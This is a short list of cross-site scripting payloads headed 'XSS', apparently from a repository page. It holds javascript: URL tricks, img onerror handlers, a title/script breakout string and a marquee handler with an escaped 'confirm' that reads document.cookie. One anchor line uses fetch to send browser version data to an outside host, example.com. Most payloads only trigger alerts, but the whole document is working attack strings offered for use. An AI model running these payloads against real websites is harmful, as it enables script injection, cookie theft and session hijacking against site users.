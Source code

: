 # XSS


#data:text/html,<a href="javascript:'<img src=e onerror=alert()>';">click</a>

#<a href='fetch("//example.com?"+navigator.appVersion)'>test</a>

#<a href="javascript:{alert(00)confirm(00)}">POC</a>


<xml:namespace prefix="t">
<svg><style>&lt;img/src=x onerror=alert(document.domain)// </b>


<marquee loop=1 width=0 onfinish=co\u006efirm(document.cookie)>XSS</marquee>


'"></title></script><img src=x onerror=confirm(1)>

